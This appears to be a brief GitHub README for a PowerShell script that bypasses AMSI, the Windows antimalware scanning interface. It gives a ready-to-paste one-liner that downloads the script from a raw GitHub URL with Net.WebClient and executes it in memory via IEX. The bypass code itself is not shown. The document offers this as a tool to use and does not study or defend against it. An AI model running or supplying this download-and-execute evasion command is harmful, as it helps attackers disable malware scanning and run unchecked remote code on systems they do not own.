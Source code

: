 # Simple-AMSI-Bypass

Script for running AMSI bypass. Run the script directoy or use IEX to invoke.

```
IEX(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/The-Viper-One/Simple-AMSI-Bypass/main/Simple-Amsi-Bypass.ps1')
```

